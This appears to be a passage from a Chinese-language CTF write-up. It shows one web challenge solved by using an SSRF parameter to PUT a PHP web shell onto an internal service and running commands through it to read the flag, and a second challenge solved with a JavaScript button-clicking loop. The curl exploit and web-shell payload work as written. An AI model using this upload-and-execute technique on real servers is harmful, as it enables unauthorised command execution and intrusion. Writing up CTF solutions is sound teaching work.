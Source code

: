发现有一处可以我们控制的额外参数点，$_POST['options']，为啥说是额外参数点，因为在抓包过程中数据包中没看到这个参数，也就是说这个参数要我们自己构造，那这个要我们自己构造的点往往就是破局的关键点。另外代码中一直有对127.0.0.1:5000这个端口的请求逻辑，那么我们就需要对这个端口进行请求，发现代码中有put逻辑上传文件的功能，那可以直接尝试PUT木马上去：

```bash
curl -X POST http://127.0.0.1:55284/index.php \
-d 'action=view' \
--data-urlencode 'filename=http://127.0.0.1:5000/shell.php' \
-d 'options[http][method]=PUT' \
--data-urlencode 'options[http][content]=<?php system($_GET["cmd"]) ; ?>'
```

返回内容如下：

{"success":true,"is_image":true,"base64_data":"data:image\/jpeg;base64,"}

shell执行env命令，就可以拿到flag了。

![image.png](assets/1746109710420-0160837c-6d65-4b74-8cf2-375e1123c0fa.png)

## Click and click

页面和题目描述都说要按钮按到10000次，那就直接js安排：

```js
const button = document.querySelector('button');
let count = 0;

const clickButton = () => {
  button.click();
  count++;
  if (count % 1000 === 0) console.log(`Clicked ${count} times`);
  
  // 当count达到10000时，停止递归调用
  if (count >= 10000) {
    console.log("Reached 10000 clicks! Stopping...");
    return; // 直接返回，不再调用setTimeout
  }
  
  setTimeout(clickButton, 0); // 继续点击
};

clickButton();
```
